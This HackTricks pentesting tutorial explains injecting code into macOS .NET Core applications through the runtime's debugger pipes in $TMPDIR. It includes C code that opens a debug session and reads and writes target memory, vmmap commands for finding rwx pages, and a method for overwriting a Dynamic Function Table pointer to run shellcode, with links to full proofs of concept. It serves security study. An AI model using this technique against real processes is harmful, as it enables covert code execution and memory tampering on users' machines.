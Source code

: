 # macOS .Net Applications Injection

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## .NET Core Debugging <a href="#net-core-debugging" id="net-core-debugging"></a>

### **Stablish a debugging session** <a href="#net-core-debugging" id="net-core-debugging"></a>

[**dbgtransportsession.cpp**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp) is responsible for handling debugger to debugee **communication**.\
It creates a 2 of names pipes per .Net process in [dbgtransportsession.cpp#L127](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L127) by calling [twowaypipe.cpp#L27](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/debug-pal/unix/twowaypipe.cpp#L27) (one will end in **`-in`** and the other in **`-out`** and the rest of the name will be the same).

So, if you go to the users **`$TMPDIR`** you will be able to find **debugging fifos** you could use to debug .Net applications:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The function [**DbgTransportSession::TransportWorker**](https://github.com/dotnet/runtime/blob/0633ecfb79a3b2f1e4c098d1dd0166bc1ae41739/src/coreclr/debug/shared/dbgtransportsession.cpp#L1259) will handle the communication from a debugger.

The first thing a debugger is required to do is to **create a new debugging session**. This is done by **sending a message via the `out` pipe** beginning with a `MessageHeader` struct, which we can grab from the .NET source:

```c
struct MessageHeader
{
    MessageType   m_eType;        // Type of message this is
    DWORD         m_cbDataBlock;  // Size of data block that immediately follows this header (can be zero)
    DWORD         m_dwId;         // Message ID assigned by the sender of this message
    DWORD         m_dwReplyId;    // Message ID that this is a reply to (used by messages such as MT_GetDCB)
    DWORD         m_dwLastSeenId; // Message ID last seen by sender (receiver can discard up to here from send queue)
    DWORD         m_dwReserved;   // Reserved for future expansion (must be initialized to zero and
                                            // never read)
        union {
            struct {
                DWORD         m_dwMajorVersion;   // Protocol version requested/accepted
                DWORD         m_dwMinorVersion;
            } VersionInfo;
          ...
        } TypeSpecificData;

    BYTE                    m_sMustBeZero[8];
}
```

In the case of a new session request, this struct is populated as follows:

```c
static const DWORD kCurrentMajorVersion = 2;
static const DWORD kCurrentMinorVersion = 0;

// Set the message type (in this case, we're establishing a session)
sSendHeader.m_eType = MT_SessionRequest;

// Set the version
sSendHeader.TypeSpecificData.VersionInfo.m_dwMajorVersion = kCurrentMajorVersion;
sSendHeader.TypeSpecificData.VersionInfo.m_dwMinorVersion = kCurrentMinorVersion;

// Finally set the number of bytes which follow this header
sSendHeader.m_cbDataBlock = sizeof(SessionRequestData);
```

Once constructed, we **send this over to the target** using the `write` syscall:

```c
write(wr, &sSendHeader, sizeof(MessageHeader));
```

Following our header, we need to send over a `sessionRequestData` struct, which contains a GUID to identify our session:

```c
// All '9' is a GUID.. right??
memset(&sDataBlock.m_sSessionID, 9, sizeof(SessionRequestData));

// Send over the session request data
write(wr, &sDataBlock, sizeof(SessionRequestData));
```

Upon sending over our session request, we **read from the `out` pipe a header** that will indicate **if** our request to establish whether a debugger session has been **successful** or not:

```c
read(rd, &sReceiveHeader, sizeof(MessageHeader));
```

### Read Memory

With a debugging sessions stablished it's possible to **read memory** using the message type [`MT_ReadMemory`](https://github.com/dotnet/runtime/blob/f3a45a91441cf938765bafc795cbf4885cad8800/src/coreclr/src/debug/shared/dbgtransportsession.cpp#L1896). To read some memory the main code needed would be:

```c
bool readMemory(void *addr, int len, unsigned char **output) {

    *output = (unsigned char *)malloc(len);
    if (*output == NULL) {
        return false;
    }

    sSendHeader.m_dwId++; // We increment this for each request
    sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
    sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
    sSendHeader.m_eType = MT_ReadMemory; // The type of request we are making
    sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to read from
    sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
    sSendHeader.m_cbDataBlock = 0;

    // Write the header
    if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Read the response header
    if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
        return false;
    }

    // Make sure that memory could be read before we attempt to read further
    if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
        return false;
    }

    memset(*output, 0, len);
    
    // Read the memory from the debugee
    if (read(rd, *output, sReceiveHeader.m_cbDataBlock) < 0) {
        return false;
    }

    return true;
}
```

The proof of concept (POC) code found [here](https://gist.github.com/xpn/95eefc14918998853f6e0ab48d9f7b0b).

### Write memory

```c
bool writeMemory(void *addr, int len, unsigned char *input) {

  sSendHeader.m_dwId++; // We increment this for each request
  sSendHeader.m_dwLastSeenId = sReceiveHeader.m_dwId; // This needs to be set to the ID of our previous response
  sSendHeader.m_dwReplyId = sReceiveHeader.m_dwId; // Similar to above, this indicates which ID we are responding to
  sSendHeader.m_eType = MT_WriteMemory; // The type of request we are making
  sSendHeader.TypeSpecificData.MemoryAccess.m_pbLeftSideBuffer = (PBYTE)addr; // Address to write to
  sSendHeader.TypeSpecificData.MemoryAccess.m_cbLeftSideBuffer = len; // Number of bytes to write
  sSendHeader.m_cbDataBlock = len;

  // Write the header
  if (write(wr, &sSendHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Write the data
  if (write(wr, input, len) < 0) {
      return false;
  }

  // Read the response header
  if (read(rd, &sReceiveHeader, sizeof(sSendHeader)) < 0) {
      return false;
  }

  // Ensure our memory write was successful
  if (sReceiveHeader.TypeSpecificData.MemoryAccess.m_hrResult != 0) {
      return false;
  }

  return true;

}
```

The POC code used to do this can be found [here](https://gist.github.com/xpn/7c3040a7398808747e158a25745380a5).

### .NET Core Code execution <a href="#net-core-code-execution" id="net-core-code-execution"></a>

The first thing is to identify for example a memory region with **`rwx`** running to save the shellcode to run. This can be easily done with:

```bash
vmmap -pages [pid]
vmmap -pages 35829 | grep "rwx/rwx"
```

Then in order to trigger the execution it would be needed to know some place where a function pointer is stored to overwrite it. It's possible to overwrite a pointer within the **Dynamic Function Table (DFT)**, which is used by the .NET Core runtime to provide helper functions for JIT compilation. A list of supported function pointers can be found within [`jithelpers.h`](https://github.com/dotnet/runtime/blob/6072e4d3a7a2a1493f514cdf4be75a3d56580e84/src/coreclr/src/inc/jithelpers.h).

In x64 versions this is straightforward using the mimikatz-esque **signature hunting** technique to search through **`libcorclr.dll`** for a reference to the symbol **`_hlpDynamicFuncTable`**, which we can dereference:

<figure><img src="../../../.gitbook/assets/image (1) (3).png" alt=""><figcaption></figcaption></figure>

All that is left to do is to find an address from which to start our signature search. To do this, we leverage another exposed debugger function, **`MT_GetDCB`**. This returns a number of useful bits of information on the target process, but for our case, we are interested in a field returned containing the **address of a helper function**, **`m_helperRemoteStartAddr`**. Using this address, we know just **where `libcorclr.dll` is located** within the target process memory and we can start our search for the DFT.

Knowing this address it's possible to overwrite the function pointer with our shellcodes one.

The full POC code used to inject into PowerShell can be found [here](https://gist.github.com/xpn/b427998c8b3924ab1d63c89d273734b6).

## References

* This technique was taken from [https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/](https://blog.xpnsec.com/macos-injection-via-third-party-frameworks/)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
